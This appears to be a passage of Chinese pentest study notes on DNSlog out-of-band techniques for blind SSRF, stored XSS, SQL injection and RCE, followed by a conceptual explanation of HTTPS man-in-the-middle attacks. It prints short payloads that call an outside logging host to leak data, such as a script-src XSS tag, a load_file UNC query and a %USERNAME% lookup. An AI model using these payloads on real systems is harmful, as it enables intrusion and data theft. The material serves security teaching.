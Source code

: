 

### 9、DNSlog在渗透测试中的实战技巧

```
1. SSRF盲打

某系统的机票信息存在导出功能，抓包修改导出信息的请求queryPath参数路径为自己的DNSlog

可以看到DNSlog平台成功记录访问请求，证明SSRF漏洞

1. XSS盲打

实战中构成致命性损伤的XSS类型就是储存型XSS，一般是从前端打到后台

比如：在一个留言框，输入payload （好的管理员！<script src=http://testxss.a.com></script）

因为script标签的src是在加载后就自动请求的，并且http协议仍然会用到dns协议，当管理员从留言板看到这条消息浏览器会自动去请求http ://testxss.a.com,这样的话，就会在DNSlog里留下 testxss.a.com 10.0.0.0

当我们在DNSlog中看到这条记录时间就说明盲打XSS存在了

1. XXE盲打

对于没有回显的XXE漏洞

1. SQL盲注

无论布尔盲注还是时间型盲注，在现代WAF的防护下，很可能导致IP被ban。

结合DNSlog，如遇到Mysql的盲注时，可以利用内置函数load _file()，来完成DNSlog，load _file()不仅能够加载本地文件

Select load_file(‘\\\\SQL注入查询语句.dnslog’)

1. RCE盲打

%USERNAME%.dnslog
```



### 10、中间人攻击？

```
原理：

https是 对http内容的[加密](https://so.csdn.net/so/search?q=加密&spm=1001.2101.3001.7020)，中间人攻击是指攻击者通过与客户端和客户端的目标服务器同时建立连接，作为客户端和服务器的桥梁，处理双方的数据，整个会话期间的内容几乎是完全被攻击者控制的。攻击者可以拦截双方的会话并且插入新的数据内容。

"中间人攻击”原理

1.客户端请求被劫持（如DNS劫持等），所有的客户端请求均被转发至中间人的服务器；

2.中间人服务器返回中间人伪造的"伪证书”（包含伪公钥）；

3.客户端创建随机数，通过中间人证书的伪公钥对随机数进行加密后传输给中间人，然后凭随机数构造对称加密算法对要进行传输的数据内容进行对称加密后传输；

4.中间人因为拥有客户端生成的随机数，从而能够通过对称加密算法进行数据内容解密；

5.中间人再以"伪客户端”的身份向正规的服务端发起请求；

6.因为中间人与服务器之间的通信过程是合法的，正规服务端通过建立的安全通道返回加密后的数据内容；

7.中间人凭借与正规服务器建立的对称加密算法进行数据内容解密；

8.中间人再通过与客户端建立的对称加密算法对正规服务器返回的数据内容进行加密传输；
```